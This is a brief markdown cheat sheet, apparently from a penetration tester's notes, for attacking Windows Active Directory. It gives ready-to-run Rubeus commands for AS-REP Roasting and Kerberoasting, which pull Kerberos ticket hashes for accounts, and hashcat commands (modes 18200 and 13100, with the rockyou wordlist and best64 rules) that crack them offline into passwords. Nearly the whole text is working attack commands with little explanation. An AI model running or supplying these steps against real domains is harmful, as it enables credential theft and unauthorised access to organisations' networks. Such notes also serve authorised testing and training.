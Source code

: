 # AS-REP Roasting

```powershell
.\Rubeus.exe asreproast /nowrap
```
> `/nowrap` prevents newlines from being added to the hash

Copying the resulting hash and cracking with hashcat
```bash
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

# Kerberoasting (TGS-REP)
```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Using hashcat to crack a TGS-REP hash (13100)
```bash
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
